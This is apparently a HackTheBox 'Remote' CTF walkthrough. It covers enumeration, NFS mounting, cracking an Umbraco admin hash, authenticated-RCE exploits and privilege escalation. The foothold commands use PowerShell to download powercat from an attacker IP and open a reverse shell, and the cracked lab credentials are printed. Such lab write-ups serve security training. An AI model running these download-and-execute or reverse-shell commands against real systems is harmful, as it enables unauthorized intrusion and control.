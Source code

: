 ```yaml
---
title: "Remote"
date: 2024-11-03
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "remote", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Windows
Difficulty: Easy

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

### 80-HTTP

![screenshot](/assets/images/remote1.png)

http://10.10.10.180/umbraco

![screenshot](/assets/images/remote3.png)

http://10.10.10.180/1111

![screenshot](/assets/images/remote4.png)

### FTP

![screenshot](/assets/images/remote2.png)

### RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![screenshot](/assets/images/remote5.png)

### 2049 NFS

```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![screenshot](/assets/images/remote6.png)

### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![screenshot](/assets/images/remote7.png)

Copy the hash and format, and save it as `admin.sha1`

![screenshot](/assets/images/remote8.png)

Crack with john.

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```
Password found.

![screenshot](/assets/images/remote9.png)

![screenshot](/assets/images/remote10.png)

![screenshot](/assets/images/remote11.png)

## Foothold

[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![screenshot](/assets/images/remote12.png)

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work. Used a different [public exploit](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py).

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![screenshot](/assets/images/remote13.png)

![screenshot](/assets/images/remote14.png)

## Privilege Escalation

```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![screenshot](/assets/images/remote15.png)

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![screenshot](/assets/images/remote17.png)

### SeImpersonate

Used PrintSpoofer to abuse SeImpersonate privilege. 

![screenshot](/assets/images/remote18.png)
